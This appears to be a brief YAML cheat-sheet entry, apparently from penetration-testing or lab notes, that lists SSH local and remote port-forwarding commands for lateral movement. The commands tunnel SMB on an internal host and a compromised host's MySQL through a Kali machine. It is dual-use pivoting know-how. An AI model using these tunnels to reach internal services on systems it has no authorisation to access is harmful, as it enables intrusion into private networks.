 ```yaml
---
functions:
  lateral-movement:
    - description: Local SSH port fowarding traffic.
      code: |
        Login to 192.168.119.149 with username 'kali' and instruct x.44 to forward all requests to 0.0.0.0:445 and redirect to 172.16.149.5:445
          ssh -f -N -L [bind_address:]port:host:hostport [username@address]
          ssh -f -N -L 0.0.0.0:445:172.16.149.5:445 kali@192.168.119.149
    - description: Remote SSH port fowarding traffic.
      code: |
        From the P.O.V of a current access: [you do this]:[I'll do this]
          ssh -f -N -R [bind_address:]port:host:hostport [username@address]
        Login to 192.168.119.149 with username 'kali' and instruct x.149 to listen on 0.0.0.0:2221 (you) and bridge that port to access 127.0.0.1:3306 (me)
          ssh -f -N -R 0.0.0.0:2221:127.0.0.1:3306 kali@192.168.119.149
---
```

